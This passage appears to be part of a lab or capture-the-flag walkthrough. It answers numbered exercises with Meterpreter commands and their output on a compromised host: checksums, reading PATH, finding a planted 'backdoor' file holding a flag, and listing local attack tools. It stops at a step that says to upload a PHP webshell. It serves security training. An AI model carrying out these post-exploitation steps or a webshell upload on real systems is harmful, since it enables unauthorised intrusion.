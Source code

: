 10. Print checksum of file mentioned in the extracted file (Refer to Q8).

```bash
meterpreter > checksum md5 /bin/bash
    164ebd6889588da166a52ca0d57b9004  /bin/bash
```

11. Check the PATH environment variable on the remote machine.

```bash
meterpreter > getenv PATH

    Environment Variables
    =====================
    
    Variable  Value
    --------  -----
    PATH      /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

12. There is a file with string “ckdo” in its name in one of the places included in PATH variable. Print the flag hidden in that file.

```bash
meterpreter > search -d /usr/bin -f *ckdo*
    Found 1 result...
        /usr/bin\backdoor (66 bytes)
```

13. Change to tools directory on the local machine.

```bash
meterpreter > lcd tools
meterpreter > pwd
    /app
meterpreter > lls
    Listing Local: /root/tools
    ==========================
    
    Mode             Size  Type  Last modified              Name
    ----             ----  ----  -------------              ----
    40755/rwxr-xr-x  4096  dir   2019-02-07 07:54:01 +0000  Delorean
    40755/rwxr-xr-x  4096  dir   2019-05-16 16:38:38 +0000  GitTools
    40755/rwxr-xr-x  4096  dir   2019-02-07 07:54:01 +0000  JohnTheRipper
    40755/rwxr-xr-x  4096  dir   2019-04-28 15:04:26 +0000  exfil
    40755/rwxr-xr-x  4096  dir   2019-02-07 07:54:01 +0000  firepwd
    40755/rwxr-xr-x  4096  dir   2019-02-07 07:54:01 +0000  ircsnapshot
    40755/rwxr-xr-x  4096  dir   2019-02-07 07:54:01 +0000  known_hosts-hashcat
    40755/rwxr-xr-x  4096  dir   2019-05-14 10:12:15 +0000  portable
    40755/rwxr-xr-x  4096  dir   2019-02-07 07:54:01 +0000  reGeorg
    40755/rwxr-xr-x  4096  dir   2019-02-07 07:54:01 +0000  scripts
    40755/rwxr-xr-x  4096  dir   2019-05-26 16:57:28 +0000  srtp-decrypt
    40755/rwxr-xr-x  4096  dir   2019-02-07 07:54:01 +0000  steganography
```

14. Upload a PHP webshell to app directory of the remote machine.
